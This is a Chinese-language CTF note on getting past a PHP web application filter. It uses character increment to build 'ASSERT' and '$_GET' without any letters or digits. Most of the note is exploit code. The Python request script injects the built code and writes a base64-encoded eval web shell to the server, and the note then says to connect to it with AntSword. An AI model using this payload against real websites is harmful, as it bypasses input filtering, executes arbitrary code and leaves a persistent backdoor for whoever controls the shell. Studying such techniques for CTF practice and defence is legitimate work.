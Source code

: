 tags:: CTF/PHP/WAF绕过

- # 思路
	- 利用php中char的自增特性进行无数字字母RCE
- # 构造字母A
	- 将一个数组转换成字符串`Array`，然后取第一个字符
	- ```python
	  [
	    "$_=[];",
	    '$_="$_";',
	    "$_=$_[$_==__];",
	  ]
	  ```
- # 利用字母A构造其他字母
	- 如果`$__`是字母A,那么利用自增`$__++`就可以得到字母B等
	- 这样只可以得到大写字母
- # payload构造
	- 构造出`ASSERT`以及`$_GET['_']`
		- ```python
		  def append_char(c):
		      return [
		          "$__=$_;", # A
		          *["$__++;" for _ in range(ord("A"), ord(c))],
		          "$___=$___.$__;"
		      ]
		  
		  cmd = [
		      "$_=[];",
		      '$_="$_";',
		      "$_=$_[$_==__];",
		      '$___="";',
		      *append_char("A"),
		      *append_char("S"),
		      *append_char("S"),
		      *append_char("E"),
		      *append_char("R"),
		      *append_char("T"),
		      "$____=$___;", # ASSERT
		      '$___="_";',
		      *append_char("G"),
		      *append_char("E"),
		      *append_char("T"),
		      "$_____=$___;", # _GET
		      "$______=${$_____}['_'];" # $_GET['_'];
		  ]
		  ```
	- 然后这么使用
		- ```python
		  r = base_get(url, params = {
		      "wllm": "CMD?><?=@$____($______)?>___>_<!!".replace("CMD", "".join(cmd)),
		      "_": "file_put_contents('test.php', base64_decode('PD9waHAKZXZhbCgkX1BPU1RbZGF0YV0pOwo/Pg=='));"
		  }, acceptable_code=[200, 500])
		  print(r.status_code)
		  print(r.text.rpartition("</code>")[2])
		  ```
	- 写马用蚁剑连上就行